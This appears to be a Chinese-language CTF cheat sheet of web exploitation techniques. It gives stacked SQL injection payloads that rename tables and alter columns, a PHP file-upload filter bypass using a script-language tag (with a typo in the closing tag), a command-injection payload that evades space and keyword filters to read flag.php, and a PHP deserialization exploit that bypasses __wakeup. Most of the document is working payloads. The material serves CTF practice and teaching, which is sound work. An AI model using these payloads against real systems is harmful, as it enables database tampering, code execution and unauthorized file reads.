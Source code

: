 #### sql注入
##### 1、堆叠注入
```
例题: [随便注]
/?inject=1';show databases; --+

/?inject=1';show tables; --+

/*获得两个表名
1919810931114514
words
*/

/?inject=1';show columns from `words`; --+

/*
words里面：id data
1919810931114514里面：flag
*/

推断查询语句(inject=1的输出)：
select id,data from `words` where id='$id'

// 修改表名
rename tables `words` to `haha`;
rename tables `1919810931114514` to `words`;

// 修改字段类型及名称;在change关键字之后，紧跟着的是你要修改的字段名，然后指定新字段名及类型
alter table `words` change `flag` `id` varchar(100);


/?inject=1' or 1 --+
```

#### 文件上传
##### 1、上传文件，发现后台检测了文件内容包含<?，则可以通过一下方法绕过
```javascript
<script language="php">
    //中间写php代码
<srcipt>
```

#### 命令执行
##### 1、在获取所需要的文件时，假如屏蔽了文件名(e.g.flag.php屏蔽了flag)
```
ping 127.0.0.1;a=g;c\a\t$IFS$fla$a.php(同时屏蔽了空格和单引号)
例题:[GXYCTF2019]Ping Ping Ping
```

#### 序列化和反序列化
##### 1、遇到对private的序列化不能直接复制序列化结果
```php
#例题:Web_php_unserialize

<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$a = new Demo('fl4g.php');
$a_1 = serialize($a);
echo $a_1 . "</br>";
$a_1 = str_replace("O:4", "O:+4", $a_1);
echo $a_1 . "</br>";
$a_1 = str_replace("1:", "2:", $a_1);
echo $a_1 . "</br>";
echo base64_encode($a_1)."<br/>";

?> 
```
